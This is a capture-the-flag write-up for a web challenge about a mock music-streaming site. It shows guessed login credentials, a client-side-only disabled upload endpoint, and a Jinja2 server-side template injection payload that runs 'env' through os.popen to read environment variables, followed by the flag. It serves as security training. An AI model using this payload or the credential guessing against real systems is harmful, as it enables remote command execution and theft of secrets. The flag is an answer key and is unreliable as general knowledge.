 # Web 300-1 - Do As I Say Not As I Do
## Description
Can't believe we're almost done... I bet by now you're asking: "Gee, Professor J, you must be some kind of mega-genius. How do you come up with all these ideas?" Well, I have a little secret sauce. Music.

That's right. Performance-enhancing tunes. I play them in the morning to get pumped up. I play it while I'm coming up with challenges. I play it while I cry in the shower. I play it while I'm trying to sleep but can't because the music is too loud.

I even have a favorite streaming platform. It's not that well known, but I like it because you can make playlists and share them out with direct links. Unfortunately, this summer as I was prepping the contest I was rocking out to some tunes when I noticed a little bug on their site. A vulnerability in their upload form. I let them know, of course, and it looks like they've handled it. Good thing, too, because I happen to know they keep some very interesting information in an environment variable on the back end.

Your target is [EVERY MORNING I WAKE UP AND OPEN PALM SLAM MY MOUSE TO CLICK THE PLAY BUTTON
](http://34.135.223.176:10405/)

## Solution
First gain user credentials via some fuzzing: `("username" : "TheProfezzorJ", "password": "password")`
After login, there is an `/upload` endpoint which is disabled on the site (client-side), but still available on the server as a POST request.
Perform SSTI on this endpoint in the description parameter, which is evaluated and sent back. This can be easily verified by sending `{{ 7*7 }}`.

The environment variables can be read by using following payload:
```
{{ config.__class__.__init__.__globals__['os'].popen('env').read() }}
```

## Flag
`poctf{uwsp_70_7h1n3_0wn_53lf_b3_7ru3}`
